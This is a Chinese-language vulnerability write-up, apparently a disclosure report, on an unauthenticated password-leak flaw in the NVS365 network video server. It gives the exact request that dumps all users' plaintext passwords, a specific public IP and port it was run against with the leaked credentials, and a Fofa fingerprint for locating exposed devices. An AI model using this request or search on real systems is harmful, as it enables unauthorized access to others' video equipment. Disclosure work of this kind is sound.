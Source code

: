 # 网络视频服务器：NVS365（密码信息未授权访问漏洞）

NVS365 是一种数字媒体服务器，允许通过局域网 (LAN)
或互联网分发视频和音频。

官网：

<http://www.nvs365.com/>

![](./images/media/image1.png){width="5.764583333333333in"
height="1.9277777777777778in"}

官网产品介绍：

http://www.nvs365.com/docs/spec.html

![](./images/media/image2.png){width="5.7625in"
height="1.7430555555555556in"}

第三方产品介绍：

<http://www.sightwatch.com/>

![](./images/media/image3.png){width="5.758333333333334in"
height="4.003472222222222in"}

漏洞版本：

NVS-365-V01

![](./images/media/image4.png){width="5.764583333333333in"
height="3.66875in"}

漏洞分析：

输入一个错误的密码后，会向服务端发送两次url

(1)http://108.48.16.33:8085/?jcpcmd=authen%20-act%20list&\_=1669884669901

(2)http://108.48.16.33:8085/?jcpcmd=userpasswd%20-act%20list&\_=1669884673854

而 第二个包 服务端会返回正确的密码信息。

szJcpResult=\"\[Success\]user0=admin;passwd0=9999;group0=0;user1=operator;passwd1=operator;group1=1;user2=user;passwd2=user;group2=2;;\";

![](./images/media/image5.png){width="5.7652777777777775in"
height="2.5840277777777776in"}

直接访问url 如图：

![](./images/media/image6.png){width="5.758333333333334in"
height="1.145138888888889in"}

Fofa查找统一资源：

fid=\"V4qI0ZpTMmYx3hhxsRW3yw==\"

![](./images/media/image7.png){width="5.761805555555555in"
height="3.3125in"}

POC脚本未授权访问如下，详情可看附件py文件

![](./images/media/image8.png){width="5.764583333333333in"
height="3.5395833333333333in"}

![](./images/media/image9.png){width="5.7555555555555555in"
height="3.6638888888888888in"}

运行如下

![](./images/media/image10.png){width="5.766666666666667in"
height="5.934027777777778in"}
